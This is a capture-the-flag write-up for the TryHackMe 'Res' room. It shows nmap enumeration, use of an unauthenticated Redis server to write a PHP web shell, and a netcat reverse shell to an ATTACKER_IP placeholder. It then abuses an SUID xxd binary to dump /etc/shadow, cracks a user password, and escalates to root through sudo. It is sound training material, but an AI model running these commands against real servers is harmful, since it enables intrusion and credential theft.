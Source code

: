 ```yaml
---
title: "Res"
collection: publications
permalink: /publication/RES
excerpt: 'This is a subscriber only room from Tryhackme'
date: 2023-02-22
venue: '02-22'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/header1.png)

**Link:** [Res](https://tryhackme.com/room/res)

## Description : 
Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

--- 

## Enumeration :
let's scan the target with nmap

``` console
nmap -sC -sV -T4 -p- 10.10.239.82 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 09:06 EST
Nmap scan report for 10.10.239.82
Host is up (0.10s latency).
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.04 seconds
```

* we got 2 open ports: 80 (apache web server) and 5279 (Redis which is a data structure storage service)
* i did some research and i found some enumeration steps for [Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)
* we can connect to redis service via redis-cli without credentials

**how to install redis-tools**

```bash
sudo apt-get install redis-tools
```

## Foothold :

* To achieve RCE we need to know the web directory, by default it's /var/www/html and we can be sure if we look at the apache web server
![proof](/images/proof.png)

* Run the following commands to achieve RCE :


```bash
redis-cli -h 10.10.239.82
 
10.10.239.82:6379> config set dir /var/www/html
OK
10.10.239.82:6379> config set dbfilename shell.php
OK
10.10.239.82:6379> set test "<?php system($_GET['cmd']) ?>"
OK
10.10.239.82:6379> save
OK
10.10.239.82:6379> exit
```


**let's start a netcat listener**


```bash
# nc -lvnp 1234
```

**let's trigger the reverse shell by visiting:**

```bash
http://10.10.239.82/shell.php?cmd=nc ATTACKER_IP PORT -e /bin/bash
```

![website](/images/revshell.png)

* we are in as www-data

```bash
# nc -lvnp 1234                         
listening on [any] 1234 ...
connect to [10.18.2.136] from (UNKNOWN) [10.10.239.82] 51758
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

* we can upgrade the revese shell using the following commands

```bash
# python3 -c 'import pty;pty.spawn("/bin/bash")'
# export TERM=xterm
PRESS CTRL+Z
# stty raw -echo; fg
```

## Horizontal Privilege Escalation :
* We can see that there is a user called Vianka
* Let's check the files that have the SUID bit set
```bash
find / -perm -u=s -type f 2>/dev/null
``` 
![suid](/images/suid.png)

* The results show a binary xxd with the SUID bit set and the owner is root

* next step is to visit [GTFOBins](https://gtfobins.github.io/#)

![xxd](/images/xxd.png)

* We can read any file as root
* Let's read the shadow file and see if we can crack Vianka's hash

```bash
www-data@ubuntu:/home/vianka$ xxd /etc/shadow | xxd -r 
xxd /etc/shadow | xxd -r 
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```
**crack Viank's hash with john**
![hash](/images/hash.png)

* switch user to vianka and get the flag 

![user-flag](/images/user-flag.png)

## Vertical Privilege Escalation :
* Let's check sudo privileges

```bash
vianka@ubuntu:~$ sudo -l
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```
* Vianka can run any commands with sudo
* All we need to do is run **sudo su**

![root-flag](/images/root-flag.png)